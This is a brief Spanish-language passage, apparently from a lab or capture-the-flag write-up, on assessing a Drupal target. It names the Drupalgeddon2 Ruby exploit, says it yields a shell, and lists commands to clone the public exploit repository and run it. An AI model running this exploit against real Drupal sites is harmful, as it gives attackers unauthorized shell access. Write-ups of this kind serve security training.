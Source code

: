## Vulnerability Assessment {-}

### Druppalgeddon {-}

**Druppalgeddon2** es un exploit creado por Hans Topo y g0tmi1k escrito en ruby que approvecha de vulnerabilidades
de drupal y que directamente nos daria una shell.

```bash
git clone https://github.com/dreadlocked/Drupalgeddon2
cd Drupalgeddon2
cat drupalgeddon2.rb
ruby drupalgeddon2.rb
```
